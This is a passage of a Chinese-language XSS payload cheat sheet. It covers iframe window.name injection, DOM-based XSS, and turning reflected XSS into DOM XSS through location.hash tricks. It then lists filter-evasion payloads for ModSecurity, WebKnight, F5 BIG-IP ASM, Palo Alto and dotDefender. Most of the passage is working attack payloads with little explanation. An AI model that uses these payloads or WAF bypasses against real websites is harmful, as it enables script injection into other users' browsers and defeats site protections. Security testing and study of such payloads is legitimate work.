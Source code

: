 情景：我们用iframe加载一个页面，我们可以控制窗口的名称，这里也可以执行javascript代码

POC
```
    <iframesrc=&#039;http://www.target.com?foo="xss  autofocus/AAAAA  onfocus=location=window.name//&#039;
name="javascript:alert("XSS")"></iframe>
```
##DOM型XSS

服务器不支持过滤DOM型的XSS，因为DOM型XSS总是在客户端执行，看一个例子：

```
    <script>
    vari=location.hash;
    document.write(i);
    </script>
```
在一些情况下，反射型XSS可以转换成DOM型XSS：
```
  http://www.target.com/xss.php?foo=<svg/onload=location=/java/.source+/script/.source+location.hash[1]+/al/.source+/ert/.source+location.hash[2]+/docu/.source+/ment.domain/.source+location.hash[3]//#:()
```
 
上面的POC只在[.+都被允许的情况下适用，可以使用location.hash注入任何不允许的编码

```
Location.hash[1] = :  // Defined at the first position after the hash.
Location.hash[2]= (  // Defined at the second position after the hash
Location.hash[3] = ) // Defined     at third position after the hash.
```

如果有客户端过滤可能不适用

##绕过

ModSecurity绕过

```
    <scri%00pt>confirm(0);</scri%00pt>
    <a/onmouseover[\x0b]=location=&#039;\x6A\x61\x76\x61\x73\x63\x72\x69\x70\x74\x3A\x61\x6C\x65\x72\x74\x28\x30\x29\x3B&#039;>rhainfosec
```

参考 [http://blog.spiderlabs.com/2013/09/modsecurity-xss-evasion-challenge-results.html](http://blog.spiderlabs.com/2013/09/modsecurity-xss-evasion-challenge-results.html)

WEB KNIGHT绕过
```
    <isindex action=j&Tab;a&Tab;vas&Tab;c&Tab;r&Tab;ipt:alert(1) type=image>
    <marquee/onstart=confirm(2)>
```
F5 BIG IP ASM and Palo ALTO绕过
```
    <table background="javascript:alert(1)"></table> //IE6或者低版本Opera
    “/><marquee  onfinish=confirm(123)>a</marquee>
```
Dot Defender绕过
```
    <svg/onload=prompt(1);> 
    <isindex action="javas&tab;cript:alert(1)" type=image>
    <marquee/onstart=confirm(2)>
```
